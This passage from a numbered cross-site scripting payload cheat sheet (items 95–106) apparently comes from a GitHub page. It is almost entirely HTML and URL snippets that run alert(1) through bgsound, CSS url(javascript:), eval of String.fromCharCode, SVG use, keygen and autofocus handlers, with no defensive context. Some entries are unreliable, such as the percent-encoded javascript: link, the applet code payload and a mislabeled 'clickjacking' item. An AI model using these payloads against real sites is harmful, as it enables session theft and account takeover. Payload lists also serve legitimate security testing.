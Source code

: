 **95. Use of `<bgsound>` for XSS Execution (IE)**
```html
<bgsound src="javascript:alert(1)">
```

**96. Exploit CSS `background` for XSS**
```html
<div style="background:url(javascript:alert('XSS'))">CSS Background</div>
```

**97. Leverage `window.location` for Redirection-Based XSS**
```html
<script>window.location = 'javascript:alert(1)';</script>
```

**98. Clickjacking Using XSS Payloads**
```html
<iframe src="http://example.com/" style="opacity:0;" onload="alert(1)"></iframe>
```

**99. XSS Injection Using `<keygen>`**
```html
<keygen autofocus onfocus=alert(1)>
```

**100. Inline JavaScript URL with Percent Encoding**
```html
<a href="javascript%3Aalert('XSS')">Click Me</a>
```

**101. Obfuscate Payload Using String Concatenation**
```html
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
```

**102. CSS Selector Exploit in JavaScript**
```html
<style>div::after {content: "XSS";}</style>
<script>document.querySelector("div").onmouseenter = () => alert(1);</script>
```

**103. Abuse of `<applet>` Tag**
```html
<applet code="javascript:alert(1)"></applet>  // Deprecated but relevant in very old browsers
```

**104. JavaScript Injection Through Query Parameter**
```html
http://example.com/?param=<script>alert('XSS')</script>
```

**105. SVG Use with JavaScript URI**
```html
<svg><use xlink:href="javascript:alert(1)"></use></svg>
```

**106. Exploit via HTML Form Input Value**
```html
<form><input value="XSS" onfocus="alert(1)" autofocus></form>
```
